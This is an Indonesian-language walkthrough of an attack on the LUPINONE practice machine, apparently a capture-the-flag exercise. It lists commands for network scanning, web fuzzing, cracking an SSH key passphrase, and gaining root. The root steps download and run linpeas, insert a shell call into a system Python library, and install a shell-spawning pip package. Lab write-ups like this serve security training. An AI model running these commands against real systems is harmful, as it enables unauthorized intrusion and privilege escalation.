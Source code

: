 # Laporan Serangan Server LUPINONE
Ini adalah hasil serangan yang telah dilakukan pada server LUPINONE untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : 
	- cara 1
	```
	ip a

	```
	- cara 2
	```
	ifconfig

	```

- scan jaringan
	- nmap 
	```
	nmap -sP <network_id>/<prefix>
	```
	- netdicover 
	```
	netdiscover -i <interface>
	```

- uji koneksi, kali linux dan server Lupinone
```
ping <ip_server>
```

## Scan Port Server dengan NMAP
- nmap : 
```
nmap -sC -sV -O <ip_server>
```

**Port** yang terbuka dari server adalah :
- ssh (22)
- http apache (80)

## Access HTTP (80)
- url
```
http://<ip_server>
```
```
/robots.txt
```
dan
```
/~myfiles
```
- cari file tersembunyi lainnya
```
ffuf -c -u http://<ip_server>/~FUZZ -w /usr/share/wordlists/dirb/common.txt
```
- access file tersembunyi
```
http://<ip_server>/~secret
```
- dapat username : **icex64**
- dapat passphrase : **fasttrack**
- cari file tersembunyi pada folder secret
```
ffuf -c -ic -u http://<ip_server>/~secret/.FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fc 403 -e .txt,.html
```
- access file
```
http://<ip_server>/~secret/.mysecret.txt
```
- dekripsi pesan dengan **cyberchef**
```
https://gchq.github.io/CyberChef/
```
- paste pesan ke input dan gunakan **data format**
- uji coba satu persatu dari **To Hex** sampai **From Base58**
- sampai menemukan hasil output
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jYmMAAAAGYmNyeXB0AAAAGAAAABDy33c2Fp
PBYANne4oz3usGAAAAEAAAAAEAAAIXAAAAB3NzaC1yc2EAAAADAQABAAACAQDBzHjzJcvk
...
...
...
...
1bsU2HpDgh3HuudIVbtXG74nZaLPTevSrZKSAOit+Qz6M2ZAuJJ5s7UElqrLliR2FAN+gB
ECm2RqzB3Huj8mM39RitRGtIhejpsWrDkbSzVHMhTEz4tIwHgKk01BTD34ryeel/4ORlsC
iUJ66WmRUN9EoVlkeCzQJwivI=
-----END OPENSSH PRIVATE KEY-----
```
- simpan kedalam file **my_key_ssh.rsa**
- ubah mode
```
chmod 600 my_key_ssh.rsa
```


## Decrypt Key SSH

menggunakan **john the ripper**
- hash
```
ssh2john my_key_ssh.rsa > my_hash

``` 
```
john --wordlist=/usr/share/wordlists/fasttrack.txt my_hash

```
- dapat passphrase (password ssh) : **P@55w0rd!**





## Access SSH (22)
- login
```
ssh -i my_key_ssh.rsa icex64@<ip_server>
```
- flag1
```
cat user.txt

```





## Privilege Escalation
- cek sudo
```
sudo -l

```
- access file python
```
cat /home/arsene/heist.py

```
- dari direktori file dan keterangan username terdapat user lain selain **icex64** yaitu user **arsene**
- teknik **(Python Library Hijacking Approach)**
- cari direktori modul **webbrowser** dengan **linpeas**
```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220731/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

```
- cari **webbrowser** terletak pada folder **/usr/lib/python3.9/webbrowser.py**
- open file
```
nano /usr/lib/python3.9/webbrowser.py

```
- dibawah import dari semua modul tambahkan script access terminal
```
os.system("/bin/bash")
```
- login user **arsena**
```
sudo -u arsena /usr/bin/python3.9 /home/arsene/heist.py

```
- coba cek sudo lagi
```
sudo -l

```
- keterangan username sudah root
- lakukan Privilege Escalation
- teknik **PIP Privilege Escalation**
```
TF=$(mktemp -d)
```
```
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
```
```
sudo pip install $TF
```
- mode terminal
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
export TERM=xterm
```
- flag2
```
id
whoami
cd /root
ls
cat root.txt

```